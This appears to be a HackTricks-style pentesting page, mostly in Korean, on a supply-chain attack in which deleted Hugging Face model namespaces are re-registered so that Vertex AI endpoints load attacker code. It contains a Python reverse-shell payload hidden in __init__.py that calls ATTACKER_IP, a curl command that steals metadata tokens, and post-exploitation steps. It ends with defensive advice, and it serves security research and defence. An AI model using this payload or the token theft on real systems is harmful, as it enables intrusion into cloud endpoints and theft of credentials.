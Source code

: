 # GCP - Vertex AI Post-Exploitation via Hugging Face Model Namespace Reuse

{{#include ../../../banners/hacktricks-training.md}}

## 시나리오

- Vertex AI Model Garden은 많은 Hugging Face (HF) 모델을 직접 배포할 수 있습니다.
- HF 모델 식별자는 Author/ModelName입니다. HF의 author/org가 삭제되면 동일한 author 이름을 누구나 재등록할 수 있습니다. 공격자는 그런 다음 legacy path에 동일한 ModelName으로 repo를 생성할 수 있습니다.
- 이름만으로(pinning이나 무결성 검증 없이) 가져오는 Pipelines, SDKs, 또는 cloud catalogs는 공격자 제어의 repo를 가져옵니다. 모델이 배포되면 해당 repo의 loader code가 Vertex AI endpoint 컨테이너 내부에서 실행되어 endpoint의 권한으로 RCE를 발생시킬 수 있습니다.

HF에서 흔한 두 가지 takeover 사례:
- 소유권 삭제(Ownership deletion): 이전 경로가 404를 반환하며 누군가 author를 재등록하고 동일한 ModelName을 게시할 때까지 404 상태입니다.
- 소유권 이전(Ownership transfer): HF는 이전 Author/ModelName에서 새 소유자에게 307 리다이렉트를 발행합니다. 이후 이전 author가 삭제되고 공격자가 재등록하면 리다이렉트 체인이 깨지며 공격자의 repo가 legacy path에서 제공됩니다.

## 재사용 가능한 네임스페이스 파악 (HF)

- 이전 author가 삭제된 경우: author 페이지가 404를 반환합니다; 모델 경로는 takeover가 발생할 때까지 404를 반환할 수 있습니다.
- 이전에 이전된 모델(Transferred models): 이전 모델 경로는 이전 author가 존재하는 동안 새 소유자에게 307을 발행합니다. 이후 이전 author가 삭제되고 재등록되면 legacy path가 공격자의 repo로 해석됩니다.

curl로 빠르게 확인:
```bash
# Check author/org existence
curl -I https://huggingface.co/<Author>
# 200 = exists, 404 = deleted/available

# Check old model path behavior
curl -I https://huggingface.co/<Author>/<ModelName>
# 307 = redirect to new owner (transfer case)
# 404 = missing (deletion case) until someone re-registers
```
## Vertex AI에 대한 엔드 투 엔드 공격 흐름

1) Model Garden에서 'deployable'로 표시된 재사용 가능한 모델 네임스페이스를 찾는다:
- Vertex AI Model Garden에서 여전히 “verified deployable”로 표시되는 HF 모델을 찾는다.
- HF에서 원래 작성자가 삭제되었는지, 또는 모델이 transferred되어 이전 작성자가 이후에 제거되었는지 확인한다.

2) 삭제된 작성자를 HF에 다시 등록하고 동일한 ModelName을 재생성한다.

3) 악성 repo를 게시한다. 모델 로드 시 실행되는 코드를 포함시킨다. HF 모델 로드 중 흔히 실행되는 예:
- repo의 __init__.py에 있는 부작용
- config/auto_map에서 참조되는 custom modeling_*.py 또는 처리 코드
- Transformers 파이프라인에서 trust_remote_code=True를 필요로 하는 코드 경로

4) 레거시 Author/ModelName의 Vertex AI 배포가 이제 공격자 repo를 가져온다. 로더는 Vertex AI endpoint 컨테이너 내부에서 실행된다.

5) 페이로드는 endpoint 환경에서(RCE) endpoint의 권한으로 접근을 확보한다.

Example payload fragment executed on import (for demonstration only):
```python
# Place in __init__.py or a module imported by the model loader
import os, socket, subprocess, threading

def _rs(host, port):
s = socket.socket(); s.connect((host, port))
for fd in (0,1,2):
try:
os.dup2(s.fileno(), fd)
except Exception:
pass
subprocess.call(["/bin/sh","-i"])  # Or python -c exec ...

if os.environ.get("VTX_AI","1") == "1":
threading.Thread(target=_rs, args=("ATTACKER_IP", 4444), daemon=True).start()
```
참고
- 실제 로더는 다양합니다. 많은 Vertex AI HF 통합은 모델의 config에 참조된 repo 모듈(예: auto_map)을 clone 및 import하며, 이는 code execution을 유발할 수 있습니다. 일부 사용 사례에서는 trust_remote_code=True가 필요합니다.
- endpoint는 일반적으로 제한된 범위의 전용 컨테이너에서 실행되지만, 데이터 접근 및 GCP 내 횡적 이동을 위한 유효한 초기 발판이 될 수 있습니다.

## Post-Exploitation Tips (Vertex AI Endpoint)

Once code is running inside the endpoint container, consider:
- 자격증명/토큰을 위해 환경 변수와 메타데이터 열거
- 연결된 스토리지 또는 마운트된 모델 아티팩트에 접근
- 서비스 계정 신원으로 Google APIs와 상호작용 (Document AI, Storage, Pub/Sub 등)
- 플랫폼이 repo를 다시 pull하면 모델 아티팩트에 지속성 확보

접근 가능하면 인스턴스 메타데이터를 열거하세요 (컨테이너에 따라 다름):
```bash
curl -H "Metadata-Flavor: Google" \
http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token
```
## Vertex AI 사용자를 위한 방어 지침

- HF loaders에서 commit 단위로 모델을 Pin하여 알림 없이 교체되는 것을 방지하세요:
```python
from transformers import AutoModel
m = AutoModel.from_pretrained("Author/ModelName", revision="<COMMIT_HASH>")
```
- 검증된 HF 모델을 신뢰할 수 있는 내부 아티팩트 스토어/레지스트리에 미러링하고 그곳에서 배포하세요.
- 코드베이스와 configs를 지속적으로 스캔하여 삭제되었거나 이전된 하드코딩된 Author/ModelName을 찾아 새 네임스페이스로 업데이트하거나 커밋으로 고정하세요.
- Model Garden에서 배포 전에 모델 출처와 작성자 존재 여부를 확인하세요.

## 인식 휴리스틱 (HTTP)

- 삭제된 작성자: 작성자 페이지 404; 인수(takeover) 전까지 이전(legacy) 모델 경로가 404를 반환합니다.
- 이전된 모델: 이전(legacy) 경로가 기존 작성자가 존재하는 동안 새 작성자로 307(리다이렉트)됨; 만약 기존 작성자가 이후 삭제되고 재등록되면 이전 경로가 공격자 콘텐츠를 제공할 수 있습니다.
```bash
curl -I https://huggingface.co/<OldAuthor>/<ModelName> | egrep "^HTTP|^location"
```
## 교차 참조

- 더 광범위한 방법론 및 공급망 관련 메모를 참조하세요:

{{#ref}}
../../pentesting-cloud-methodology.md
{{#endref}}

## 참고자료

- [Model Namespace Reuse: An AI Supply-Chain Attack Exploiting Model Name Trust (Unit 42)](https://unit42.paloaltonetworks.com/model-namespace-reuse/)
- [Hugging Face: Renaming or transferring a repo](https://huggingface.co/docs/hub/repositories-settings#renaming-or-transferring-a-repo)

{{#include ../../../banners/hacktricks-training.md}}
